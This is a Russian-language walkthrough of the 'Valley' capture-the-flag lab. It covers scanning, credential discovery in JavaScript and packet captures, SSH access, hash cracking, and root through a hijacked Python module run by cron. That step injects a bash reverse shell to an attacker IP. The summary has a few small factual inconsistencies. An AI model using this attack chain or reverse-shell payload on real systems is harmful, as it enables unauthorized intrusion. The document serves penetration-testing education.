





# Valley


---

### 🇬🇧 Task Description

**Valley** — Can you find your way into the Valley? 🏔️🌄

### 🇷🇺 Описание задачи

**Valley** — Сможешь ли ты найти путь в Долину? 🏔️🌄

---

### 🔍 Шаг 1: Разведка (Reconnaissance)

#### 🏓 Проверка доступности (ping)

```bash
ping -c 4 10.129.138.187
```

**Результат:**

```
64 bytes from 10.129.138.187: icmp_seq=1 ttl=62 time=86.1 ms
64 bytes from 10.129.138.187: icmp_seq=2 ttl=62 time=84.2 ms
64 bytes from 10.129.138.187: icmp_seq=3 ttl=62 time=82.4 ms
64 bytes from 10.129.138.187: icmp_seq=4 ttl=62 time=82.2 ms

--- 10.129.138.187 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3011ms
```

✅ Хост жив! `ttl=62` — Linux-система. Потерь нет.

---

#### ⚡ Сканирование портов (nmap)

```bash
nmap -sC -sV 10.129.138.187
```

**Описание флагов:**
- `-sC` — скрипты категории default (базовые проверки безопасности, сбор информации).
- `-sV` — определение версий сервисов на открытых портах.

**Результат:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-12 17:09 +0300
Nmap scan report for 10.129.138.187
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

#### 📊 Результаты сканирования

Обнаружено **2 открытых порта**:

| Порт | Сервис | Версия |
|------|--------|--------|
| 22/tcp | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 80/tcp | HTTP | Apache 2.4.41 (Ubuntu) |

🔍 Стандартная связка SSH + веб-сервер. Идём исследовать порт 80! 🌐

---

### 🌐 Шаг 2: Исследование веб-сайта

Открываем сайт в браузере и смотрим исходный код через `curl`:


```bash
curl http://10.129.138.187/
```

**Результат:**

```html
<!DOCTYPE html>
<head>
  <link rel="stylesheet" href="styles.css">
</head>

<CENTER>
<h1>Valley Photo Co.</h1>
<body>
    <CENTER>
    <div>
    <p><strong>Allow Valley Photo Co. to introduce itself. We are the premire photography company to capture the perfect moments. </strong> We offer a number of samples of our previous work in a gallery which can be seen below</p>

    <button onclick="window.location.href = 'gallery/gallery.html';"> View Gallery </button>
    <button onclick="window.location.href = 'pricing/pricing.html';"> View Pricing </button>
    </div>
    </CENTER>
</CENTER>
<script src="/js/art.js"></script>
</body>
```

---

#### 📋 Анализ

Перед нами одностраничный сайт **Valley Photo Co.** — компания по фотосъёмке 📸. На странице обнаружены:

- 🔗 **Ссылка на галерею:** `/gallery/gallery.html`
- 💰 **Ссылка на цены:** `/pricing/pricing.html`
- 📜 **JavaScript-файл:** `/js/art.js`

Интересный момент — год в футере `2001`, что намекает на старый и возможно плохо обновляемый код. 

---

### 🔎 Шаг 3: Полное сканирование портов

Стандартный nmap показал только 22 и 80 порты. Проверяем весь диапазон для поиска скрытых сервисов:

```bash
nmap -T5 -p- -sS -n --min-rate 5000 10.129.138.187
```

**Описание флагов:**
- `-T5` — максимальная скорость сканирования (insane).
- `-p-` — сканирование всех 65535 портов.
- `-sS` — SYN-сканирование (stealth).
- `-n` — без DNS-резолвинга.
- `--min-rate 5000` — минимум 5000 пакетов в секунду.

**Результат:**

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
37370/tcp open  unknown
```

🎯 Нашёлся третий порт — **37370**! Проверяем, что на нём запущено:

```bash
nmap -A -p 37370 10.129.138.187
```

**Описание флагов:**
- `-A` — агрессивный режим: определение ОС, версии, traceroute.
- `-p 37370` — только порт 37370.

**Результат:**

```
PORT      STATE SERVICE VERSION
37370/tcp open  ftp     vsftpd 3.0.3
```

📁 На порту 37370 работает **FTP-сервер vsftpd 3.0.3**.

---

### 🕵️ Шаг 4: Поиск скрытых директорий через gobuster

Запускаем перебор директорий на основном сайте:

```bash
gobuster dir -u http://10.129.138.187 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
```

**Описание:**
- `dir` — режим перебора директорий и файлов.
- `-u` — целевой URL.
- `-w` — словарь (DirBuster small — быстрый стартовый вариант).

**Результат:**

```
gallery              (Status: 301) [--> http://10.129.138.187/gallery/]
static               (Status: 301) [--> http://10.129.138.187/static/]
pricing              (Status: 301) [--> http://10.129.138.187/pricing/]
```

Директории `gallery` и `pricing` уже были видны из HTML, а вот `/static/` — что-то новенькое. Идём глубже:

```bash
gobuster dir -u http://10.129.138.187/static -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

**Результат:**

```
00                   (Status: 200) [Size: 127]
3                    (Status: 200) [Size: 421858]
5                    (Status: 200) [Size: 1426557]
6                    (Status: 200) [Size: 2115495]
7                    (Status: 200) [Size: 5217844]
9                    (Status: 200) [Size: 1190575]
```

В `/static/` обнаружены файлы с числовыми именами. Проверяем `00` — самый маленький и, вероятно, текстовый:

```bash
curl http://10.129.138.187/static/00
```

**Содержимое:**

```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```

**Перевод:**

```
Заметки разработчика от valleyDev:
-добавить примеры свадебных фото
-переделать редактирование на #4
-удалить /dev1243224123123
-проверить оповещения SIEM
```

В заметках фигурируют:
- 👤 имя **valleyDev**
- 📁 путь **/dev1243224123123**

---

### 🔐 Шаг 5: Страница входа и анализ JS-кода

Переходим по найденному пути `/dev1243224123123`:



Видим форму логина. Открываем исходный код страницы (`Ctrl+U`):



В HTML обнаруживается ссылка на JavaScript-файл `dev.js`. Переходим по нему и изучаем код:


**Найденный участок кода:**

```javascript
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

Валидные учётные данные захардкожены прямо в клиентском JavaScript:
- 👤 **Логин:** `siemDev`
- 🔑 **Пароль:** `california`

При успешном входе произойдёт редирект на `/dev1243224123123/devNotes37370.txt`.

---

### 📝 Шаг 6: Заметки разработчика и доступ к FTP

JS-код показал, что после логина произойдёт редирект на `devNotes37370.txt`. Но зачем логиниться, если файл лежит в открытом доступе? 🔓 Просто читаем его напрямую:

```bash
curl http://10.129.138.187/dev1243224123123/devNotes37370.txt
```

**Содержимое:**

```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

**Перевод:**

```
заметки разработчика для ftp-сервера:
-прекратить переиспользовать учётные данные
-проверить на наличие уязвимостей
-своевременно устанавливать патчи
-сменить порт ftp на стандартный
```

Прямая подсказка: пароли используются повторно, а FTP болтается на нестандартном порту 37370. Пробуем учётные данные `siemDev:california` для входа по FTP:

```bash
ftp 10.129.138.187 37370
```

```
Name: siemDev
Password: california
230 Login successful.
```

✅ Вход выполнен! Смотрим содержимое:

```bash
ftp> ls
```

```
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
```

📦 Три файла с расширением **`.pcapng`** — это файлы захвата сетевого трафика (Packet Capture Next Generation). Они создаются анализаторами трафика вроде **Wireshark** или **tcpdump** и содержат записанные сетевые пакеты, которые можно исследовать на предмет учётных данных, передаваемых в открытом виде, и другой чувствительной информации.

Скачиваем все три файла:

```bash
ftp> get siemFTP.pcapng
ftp> get siemHTTP1.pcapng
ftp> get siemHTTP2.pcapng
ftp> exit
```

---

### 🔬 Шаг 7: Анализ pcapng-файлов в Wireshark

Скачанные файлы `.pcapng` — это дампы сетевого трафика. Открываем их в **Wireshark** для анализа. Чтобы не утонуть в тысячах пакетов, применяем фильтр — оставляем только HTTP-трафик.

В строке фильтра вводим:

```
http
```

В файле `siemHTTP2.pcapng` находим единственный HTTP-запрос:



**Что видим в пакете:**

```
Frame 2335: Packet, 605 bytes on wire (4840 bits), 605 bytes captured (4840 bits)
Internet Protocol Version 4, Src: 192.168.111.136, Dst: 192.168.111.136
Transmission Control Protocol, Src Port: 47096, Dst Port: 80
Hypertext Transfer Protocol
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "uname" = "valleyDev"
        Key: uname
        Value: valleyDev
    Form item: "psw" = "ph0t0s1234"
        Key: psw
        Value: ph0t0s1234
    Form item: "remember" = "on"
        Key: remember
        Value: on
```

---

#### 📖 Что такое POST-запрос?

**POST** — один из основных методов HTTP-протокола, предназначенный для **отправки данных на сервер**. В отличие от GET-запроса, где параметры передаются прямо в URL (и видны всем в истории браузера), POST-запрос упаковывает данные в **тело запроса**. Именно поэтому чувствительная информация — логины, пароли, данные форм — всегда должна передаваться методом POST.

Структура POST-запроса:
- 📬 **Заголовки (Headers):** метаинформация — тип содержимого (`Content-Type`), длина данных, адрес назначения.
- 📦 **Тело (Body):** сами данные в формате, указанном в заголовке. В нашем случае — `application/x-www-form-urlencoded`, то есть стандартная кодировка HTML-форм (как в строке URL: `key=value&key2=value2`).

---

#### 🔑 Найденные учётные данные

В теле POST-запроса обнаружена пара:

- 👤 **Логин:** `valleyDev`
- 🔐 **Пароль:** `ph0t0s1234`

Тот самый `valleyDev`, чьи заметки мы читали в `/static/00`! Пароль не совпадает с FTP-шным — значит, это учётные данные от чего-то другого (скорее всего, от SSH).

---

### 🚪 Шаг 8: Вход по SSH и пользовательский флаг

Найденные в Wireshark учётные данные `valleyDev:ph0t0s1234` проверяем на SSH:

```bash
ssh valleyDev@10.129.138.187
```

При первом подключении подтверждаем fingerprint хоста (`yes`), вводим пароль `ph0t0s1234` — и мы внутри! 🎉

```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)
valleyDev@valley:~$
```

Забираем пользовательский флаг:

```bash
ls
cat user.txt
```

**Результат:**

```
THM{█████████████████████}
```

✅ User flag получен!

---

### 🔎 Шаг 9: Исследование файла valleyAuthenticator

В директории `/home` обнаружен необычный файл — `valleyAuthenticator`, принадлежащий пользователю `valley` с правами на выполнение для всех:

```bash
cd /home
ls -la
```

```
-rwxrwxr-x  1 valley    valley    749128 Aug 14  2022 valleyAuthenticator
```

Чтобы изучить его локально, запускаем на целевой машине HTTP-сервер и скачиваем файл к себе:

```bash
# На целевой машине:
python3 -m http.server

# На локальной машине:
wget http://10.129.138.187:8000/valleyAuthenticator
```

---

#### 📦 Распаковка UPX

Проверяем содержимое файла с помощью `strings` и в конце замечаем маркер `UPX!` — это сигнатура упаковщика исполняемых файлов **UPX** (Ultimate Packer for eXecutables). UPX сжимает бинарники, уменьшая их размер, и для анализа файл нужно распаковать:

```bash
upx -d valleyAuthenticator
```

**Описание:**
- `upx` — утилита для упаковки/распаковки исполняемых файлов.
- `-d` — режим decompress (распаковка).

---

#### 🔍 Поиск учётных данных

После распаковки снова смотрим строки и фильтруем по ключевым словам:

```bash
strings valleyAuthenticator | grep username -A 5 -B 5
```

**Описание:**
- `strings` — извлекает читаемые текстовые строки из бинарного файла.
- `grep username` — фильтрует строки, содержащие "username".
- `-A 5` — показать 5 строк после совпадения.
- `-B 5` — показать 5 строк до совпадения.

**Результат:**

```
e6722920bab2326f8217e4bf6b1b58ac
dd2921cc76ee3abfd2beb60709056cfb
Welcome to Valley Inc. Authenticator
What is your username:
What is your password:
Authenticated
Wrong Password or Username
```

🔑 Найдены два MD5-подобных хеша:
- `e6722920bab2326f8217e4bf6b1b58ac`
- `dd2921cc76ee3abfd2beb60709056cfb`

---

### 🔓 Шаг 10: Расшифровка хешей и смена пользователя

Найденные хеши выглядят как MD5. Для расшифровки используем [CrackStation](https://crackstation.net) — онлайн-сервис для взлома хешей методом поиска по радужным таблицам. CrackStation хранит предварительно вычисленные таблицы соответствия хешей и исходных строк, что позволяет мгновенно расшифровывать миллионы распространённых паролей без необходимости запуска локального брутфорса.



**Результаты:**

| Хеш | Тип | Расшифровка |
|-----|-----|------------|
| `e6722920bab2326f8217e4bf6b1b58ac` | MD5 | `liberty123` |
| `dd2921cc76ee3abfd2beb60709056cfb` | MD5 | `valley` |

Видим логику: имя пользователя — `valley`, пароль — `liberty123`. Переключаемся на этого пользователя:

```bash
su valley
```

Вводим пароль `liberty123`:

```
valley@valley:/home$
```

✅ Мы стали пользователем `valley`!

---

### 💥 Шаг 11: Повышение привилегий через cron и отравление Python-библиотеки

Ищем пути повышения привилегий. Проверяем права `sudo`:

```bash
sudo -l
```

```
Sorry, user valley may not run sudo on valley.
```

❌ `sudo` недоступен. Смотрим системный планировщик задач — `/etc/crontab`. Этот файл содержит cron-задачи, выполняемые от имени разных пользователей (в том числе root) по расписанию. В отличие от пользовательских crontab'ов, здесь явно указан пользователь для каждой задачи.

**Что такое `/etc/crontab`?**
Главный системный crontab-файл. Записи имеют формат: `минута час день месяц день_недели пользователь команда`. Задачи выполняются с правами указанного пользователя — в том числе `root`.

```bash
cat /etc/crontab
```

**Результат:**

```
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

Каждую 1-ю минуту каждого часа от `root` выполняется Python-скрипт `/photos/script/photosEncrypt.py`.

---

#### 🔍 Анализ скрипта

Проверяем права на скрипт:

```bash
ls -la /photos/script/photosEncrypt.py
```

```
-rwxr-xr-x 1 root root 621 Mar  6  2023 /photos/script/photosEncrypt.py
```

Скрипт принадлежит root и недоступен для редактирования. Смотрим содержимое:

```bash
cat /photos/script/photosEncrypt.py
```

```python
#!/usr/bin/python3
import base64
for i in range(1,7):
    image_path = "/photos/p" + str(i) + ".jpg"
    with open(image_path, "rb") as image_file:
        image_data = image_file.read()
    encoded_image_data = base64.b64encode(image_data)
    output_path = "/photos/photoVault/p" + str(i) + ".enc"
    with open(output_path, "wb") as output_file:
        output_file.write(encoded_image_data)
```

Скрипт импортирует модуль `base64`. Изменить сам скрипт нельзя — но можно атаковать импортируемый модуль! 🧠

---

#### 🎯 Поиск writable Python-модуля

Ищем, где лежит `base64`:

```bash
find / -name "base64" 2>/dev/null
```

```
/usr/bin/base64
```

Это бинарник, не то. Ищем Python-файлы, доступные нам для записи:

```bash
find / -writable 2>/dev/null | grep python
```

**Описание команды:**
- `find / -writable` — поиск файлов и директорий, доступных текущему пользователю для записи.
- `2>/dev/null` — скрываем ошибки доступа.
- `| grep python` — фильтруем только Python-пути.

**Результат:**

```
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

🔥 Файл `/usr/lib/python3.8/base64.py` доступен для записи! Когда скрипт `photosEncrypt.py` делает `import base64`, Python сначала ищет модуль в текущей директории, а затем в `/usr/lib/python3.8/`. Наш writable `base64.py` будет загружен и выполнен с правами root!

---

#### ✏️ Внедрение пейлоада

Смотрим содержимое оригинального `base64.py` (опущено для краткости) и добавляем в начало файла наш пейлоад:

```python
import os
os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.172.138/9999 0>&1'")
```

**Генерация reverse shell:**

Используем [revshells.com](https://www.revshells.com) — онлайн-генератор реверс-шеллов. Выбираем тип **Bash**, указываем IP-адрес нашей машины `192.168.172.138` (интерфейс `tun0`) и порт `9999`:



Сгенерированный пейлоад вставляем в `base64.py` через `nano`:

```bash
nano /usr/lib/python3.8/base64.py
```

---

#### 🎧 Ожидание cron и получение root

На локальной машине запускаем слушатель:

```bash
nc -lvnp 9999
```

**Описание флагов:**
- `-l` — режим слушателя (listen).
- `-v` — verbose.
- `-n` — без DNS-резолвинга.
- `-p 9999` — порт прослушивания.

Ждём до 1-й минуты следующего часа (cron срабатывает на 1-й минуте каждого часа из-за `1 * * * *`), и в Netcat приходит соединение:

```
connect to [192.168.172.138] from (UNKNOWN) [10.129.138.187] 45110
bash: cannot set terminal process group (1527): Inappropriate ioctl for device
bash: no job control in this shell
root@valley:~#
```

🎉 Мы root! Забираем флаг:

```bash
cat root.txt
```

```
THM{███████████████████████████████}
```

🔴 **Root-флаг получен!** Машина полностью скомпрометирована!

---

## 🏁 Итог

Машина **Valley** успешно пройдена по следующей цепочке атак:

> 🔍 Recon → 🌐 Web Enumeration → 👤 Developer Notes → 🔐 JS Hardcoded Creds → 📁 FTP Access → 🔬 PCAP Analysis (Wireshark) → 🚪 SSH as valleyDev → 🔎 Local Enumeration → 🔓 Hash Cracking (valleyAuthenticator) → 👥 User Switch (valley) → ⚙️ Cron Discovery → 🐍 Python Library Hijacking → 💥 Reverse Shell as Root → 👑 Root Flag

**Ключевые точки:**

- 🔎 **Полное сканирование портов** — обнаружен скрытый FTP на нестандартном порту 37370.
- 📝 **Заметки разработчика** — в `/static/00` найдены имя пользователя и путь к скрытой dev-директории.
- 🔓 **Хардкод в JS** — учётные данные `siemDev:california` лежали прямо в клиентском коде.
- 📡 **Анализ трафика** — в FTP-дампах `.pcapng` через Wireshark найден POST-запрос с логином и паролем `valleyDev:ph0t0s1234`.
- 🔑 **Реверс инжиниринг** — распаковка UPX-сжатого `valleyAuthenticator` и расшифровка MD5-хешей дали доступ к пользователю `valley`.
- 🐍 **Отравление Python-библиотеки** — cron от root запускал скрипт, импортирующий `base64.py`, который был доступен для записи. Подменили модуль — получили root-шелл.
- ⏰ **Ожидание крона** — задача срабатывала раз в час на 1-й минуте, что потребовало терпения, но результат того стоил.

**Рекомендации по защите:**
- ❌ Не хранить учётные данные в клиентском JavaScript.
- ❌ Не оставлять dev-заметки и бэкапы трафика в открытом доступе.
- 🔒 Переиспользование паролей — главная проблема этой машины (пароль FTP подошёл к `valleyDev`, а логин `valley` из `base64.py` совпал с хешем из `valleyAuthenticator`).
- 🛡️ Ограничить права на запись в `/usr/lib/python3.8/` только для root.
- 📁 Убрать анонимный доступ к FTP и пересмотреть необходимость pcapng-файлов на сервере.

---

Автор: **masquadd** 👾